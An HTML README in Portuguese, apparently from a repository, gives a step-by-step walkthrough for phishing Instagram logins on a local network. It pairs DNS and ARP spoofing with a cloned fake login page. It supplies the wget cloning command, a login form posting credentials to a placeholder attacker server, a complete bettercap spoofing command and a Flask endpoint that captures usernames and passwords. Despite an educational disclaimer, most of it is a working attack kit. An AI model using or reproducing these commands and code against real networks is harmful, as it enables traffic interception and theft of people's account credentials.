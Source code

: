 <header>
<h1>Como Criar uma Página Falsa Usando DNS Spoofing e ARP Spoofing</h1>
</header>

<section>
<h2>Descrição</h2>
<p>Este projeto é uma demonstração de como ataques como DNS Spoofing e ARP Spoofing podem ser utilizados para redirecionar o tráfego da vítima para uma página falsa que você controla. Lembre-se, essas técnicas devem ser usadas apenas para fins educativos e em ambientes controlados. Qualquer uso mal-intencionado é ilegal e antiético.</p>
</section>

<section>
<h2>Objetivo</h2>
<p>O objetivo deste projeto é mostrar como um atacante pode redirecionar tráfego de uma rede local para uma página falsa, a qual coleta dados de login sensíveis (por exemplo, credenciais de um site como o Instagram).</p>
</section>

<section>
<h2>Como Funciona</h2>
<h3>DNS Spoofing (Falsificação de DNS)</h3>
<p>O atacante intercepta as consultas DNS e engana a vítima, direcionando o tráfego de um site legítimo (como "instagram.com") para seu próprio servidor.</p>

<h3>ARP Spoofing (Falsificação de ARP)</h3>
<p>Esse ataque manipula a tabela ARP, fazendo com que os pacotes da vítima sejam enviados para o computador do atacante.</p>

<h3>Página Falsa (Phishing)</h3>
<p>O atacante cria uma página que se parece com o site original (por exemplo, o Instagram), mas com a funcionalidade de coletar dados inseridos pela vítima, como nome de usuário e senha.</p>
</section>

<section>
<h2>Como Criar a Página Falsa</h2>

<h3>Passo 1: Baixar o código do site original</h3>
<p>Você pode usar ferramentas como <code>wget</code> ou <code>curl</code> para baixar o código HTML do site original. Isso permite que você tenha uma cópia do site em seu computador.</p>
<pre><code>wget -r -np -k http://instagram.com</code></pre>

<h3>Passo 2: Modificar o código para coletar dados</h3>
<p>Depois de ter o código do site, altere-o para incluir um formulário falso de login. Esse formulário irá coletar as credenciais inseridas pela vítima.</p>
<pre>
<code>

        <form action="http://seu-servidor.com/pegar-dados" method="post">
        <input type="text" name="username" placeholder="Usuário">
        <input type="password" name="password" placeholder="Senha">
        <input type="submit" value="Entrar">
        </form>
</code>
</pre>

<h3>Passo 3: Servir a página falsa localmente</h3>
<p>Você pode usar Python para criar um servidor local e servir a página falsa. Para isso, basta rodar o seguinte comando:</p>
<pre><code>python3 -m http.server 8080</code></pre>

<h3>Passo 4: Configurar o ataque de DNS e ARP Spoofing</h3>
<p>Agora que você tem a página falsa e o servidor local configurados, é necessário redirecionar o tráfego para o seu computador. Isso pode ser feito usando ferramentas como o Bettercap.</p>
<pre><code>
sudo bettercap -iface wlan0 -eval "set dns.spoof.domains instagram.com.br; set dns.spoof.address 192.168.10.103; dns.spoof on; arp.spoof on"
</code></pre>
<p>Este comando faz com que o tráfego destinado ao "instagram.com.br" seja redirecionado para o seu servidor local (no caso, 192.168.10.103).</p>

<h3>Passo 5: Coletar os dados</h3>
<p>Quando a vítima acessar a página falsa e preencher o formulário de login, os dados serão enviados para o servidor especificado no atributo action do formulário.</p>
<p>Se você estiver usando Flask, você pode configurar um servidor para coletar esses dados:</p>
<pre>
<code>
from flask import Flask, request

app = Flask(__name__)

@app.route('/pegar-dados', methods=['POST'])
def pegar_dados():
    usuario = request.form['username']
    senha = request.form['password']
    print(f"Usuário: {usuario} | Senha: {senha}")
    return "Dados coletados!"

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=80)
</code></pre>
</section>

<section>
<h2>Resumo do Processo</h2>
<ol>
<li>A vítima tenta acessar "instagram.com".</li>
<li>O tráfego é redirecionado para o seu servidor local devido ao ataque de DNS Spoofing.</li>
<li>O servidor local serve a página falsa.</li>
<li>A vítima insere as credenciais de login na página falsa.</li>
<li>Os dados coletados são enviados para o seu servidor, permitindo que você capture as informações.</li>
</ol>
</section>

<section>
<h2>Aviso Legal</h2>
<p>Este tipo de atividade é ilegal e antiética. O uso dessas técnicas deve ser restrito a ambientes controlados e com a permissão explícita dos envolvidos, como em laboratórios de segurança e para fins educativos. Realizar ataques como este em redes ou sistemas sem autorização pode resultar em sérias consequências legais.</p>
</section>
